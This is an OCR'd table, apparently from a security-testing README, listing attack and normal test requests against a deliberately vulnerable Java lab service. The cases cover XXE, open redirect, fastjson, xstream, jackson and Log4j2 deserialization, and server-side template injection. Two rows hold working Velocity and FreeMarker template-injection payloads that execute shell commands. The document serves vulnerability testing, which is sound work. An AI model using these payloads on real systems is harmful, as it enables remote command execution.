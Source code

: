 |            ssti_velocity_attack            |                      SSTI攻击-velocity                      | GET      | http://192.168.0.9:9991/ssti_velocity?content=%23set (%24exp %3d "exp")%3b%24exp.getClass().forName("java.lang.Runtime").getRuntime().exec("whoami") |   攻击   |
|           ssti_freemarker_attack           |                     SSTI攻击-freemarker                     | GET      | http://192.168.0.9:9991/ssti_freemarker?templateContent=%3C%23assign%20ex%3D%22freemarker.template.utility.Execute%22%3Fnew%28%29%3E%24%7B%20ex%28%22bash%20-c%20whoami%22%29%20%7D |   攻击   |
|        xxe_saxparserfactory_attack         |                    XXE-saxparserfactory                     | POST     |         http://192.168.0.9:9991/xxe_saxparserfactory         |   攻击   |
|        xxe_xmlreaderfactory_attack         |                    XXE-xmlreaderfactory                     | POST     |         http://192.168.0.9:9991/xxe_xmlreaderfactory         |   攻击   |
|           xxe_saxbuilder_attack            |                       XXE-saxbuilder                        | POST     |            http://192.168.0.9:9991/xxe_saxbuilder            |   攻击   |
|            xxe_saxreader_attack            |                        XXE-saxreader                        | POST     |            http://192.168.0.9:9991/xxe_saxreader             |   攻击   |
|     xxe_documentbuilderfactory_attack      |                 XXE-documentbuilderfactory                  | POST     |      http://192.168.0.9:9991/xxe_documentbuilderfactory      |   攻击   |
| xxe_documentbuilderfactory_xinclude_attack |             XXE-documentbuilderfactory_xinclude             | POST     | http://192.168.0.9:9991/xxe_documentbuilderfactory_xinclude  |   攻击   |
|     OpenRedirector_ModelAndView_attack     |                 URL重定向漏洞-ModelAndView                  | GET      | http://192.168.0.9:9991/OpenRedirector_ModelAndView?url=https://www.baidu.com |   攻击   |
|     OpenRedirector_sendRedirect_attack     |                 URL重定向漏洞-sendRedirect                  | GET      | http://192.168.0.9:9991/OpenRedirector_sendRedirect?url=https://www.baidu.com |   攻击   |
|       OpenRedirector_lacation_attack       |                   URL重定向漏洞-location                    | GET      | http://192.168.0.9:9991/OpenRedirector_lacation?url=https://www.baidu.com |   攻击   |
|             swagger-ui_attack              |                  swagger-ui-未授权访问漏洞                  | GET      |           http://192.168.0.9:9991/swagger-ui.html            |   攻击   |
|              xxe_wxpay_attack              |                       微信支付XXE漏洞                       | POST     |              http://192.168.0.9:9974/wxpay-xxe               |   攻击   |
|           xstream_CVE-2019-10173           |            xstream 反序列化漏洞(CVE-2019-10173)             | POST     |            http://192.168.0.9:9973/CVE-2019-10173            |   攻击   |
|      jackson-databind_CVE-2019-12384       |        jackson-databind 反序列化漏洞(CVE-2019-12384)        | GET      |            http://192.168.0.9:9971/CVE-2019-12384            |   攻击   |
|               log4j2_normal                |          Log4j2 远程代码执行漏洞（CVE-2021-44228）          | POST     |                http://192.168.0.9:9998/log4j2                |   正常   |
|           fastjson_1_2_24_normal           |                  fastjson-1.2.24反序列漏洞                  | POST     |        http://192.168.0.9:9999/fastjson1.2.24-process        |   正常   |
|           fastjson1_2_25_normal            |   fastjson-1.2.25-1.2.41反序列漏洞-disableAutoTypeSupport   | POST     |        http://192.168.0.9:9987/fastjson1.2.25-process        |   正常   |
|           fastjson1_2_41_normal            |     fastjson-1.2.25-1.2.41反序列漏洞-setAutoTypeSupport     | POST     | http://192.168.0.9:9987/fastjson1.2.41-process-setAutoTypeSupport |   正常   |
|           fastjson1_2_42_normal            |                  fastjson-1.2.42反序列漏洞                  | POST     |        http://192.168.0.9:9986/fastjson1.2.42-process        |   正常   |
|           fastjson1_2_43_normal            |                  fastjson-1.2.43反序列漏洞                  | POST     |        http://192.168.0.9:9985/fastjson1.2.43-process        |   正常   |
|           fastjson1_2_45_normal            |                  fastjson-1.2.45反序列漏洞                  | POST     |        http://192.168.0.9:9984/fastjson1.2.45-process        |   正常   |
|           fastjson1_2_59_normal            |         fastjson-1.2.59反序列漏洞(1.2.5 <= 1.2.59)          | POST     |        http://192.168.0.9:9983/fastjson1.2.59-process        |   正常   |
|           fastjson1_2_60_normal            |         fastjson-1.2.60反序列漏洞(1.2.5 <= 1.2.60)          | POST     |        http://192.168.0.9:9982/fastjson1.2.60-process        |   正常   |
|           fastjson1_2_61_normal            |                  fastjson-1.2.61反序列漏洞                  | POST     |        http://192.168.0.9:9981/fastjson1.2.61-process        |   正常   |
|           fastjson1_2_62_normal            |                  fastjson-1.2.62反序列漏洞                  | POST     |        http://192.168.0.9:9980/fastjson1.2.62-process        |   正常   |
|           fastjson1_2_66_normal            |                  fastjson-1.2.66反序列漏洞                  | POST     |        http://192.168.0.9:9979/fastjson1.2.66-process        |   正常   |
|           fastjson1_2_67_normal            |                  fastjson-1.2.67反序列漏洞                  | POST     |        http://192.168.0.9:9978/fastjson1.2.67-process        |   正常   |
|           fastjson1_2_68_normal            |                  fastjson-1.2.68反序列漏洞                  | POST     |        http://192.168.0.9:9977/fastjson1.2.68-process        |   正常   |
|           fastjson1_2_80_normal            |                  fastjson-1.2.80反序列漏洞                  | POST     |        http://192.168.0.9:9976/fastjson1.2.80-process        |   正常   |
